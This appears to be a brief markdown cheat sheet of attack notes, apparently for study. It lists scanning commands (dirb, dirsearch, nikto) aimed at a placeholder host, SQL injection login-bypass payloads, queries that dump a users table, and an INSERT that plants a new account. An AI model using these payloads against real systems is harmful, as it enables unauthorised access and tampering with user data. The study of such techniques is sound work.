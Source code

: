 ## Enumerate
```bash
dirb evil.com -r -z10 # recursive; wait 10 milliseconds between delays

python3 dirsearch/dirsearch.py -u evil.com --simple-report demo-webcrawl.txt

nikto -h evil.com -Format txt -o demo-vulnscan-web.txt
```

SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS. 
```

## Exploit
Comments
```
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Injection Examples
```
# bypass auth (put in the username field)
victor' or 1=1; -- 

# bypass auth (put in the username field; the LIMIT keyword might be necessary for some databases)
victor' or 1=1 LIMIT=1; -- 
```

SQL Database Query Examples
```sql
USE victimdb;
SELECT * FROM users;
```

## Explore
```sql
SELECT * FROM target.users # database.table
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO target.users(username, password) VALUES ('victor','please');
```
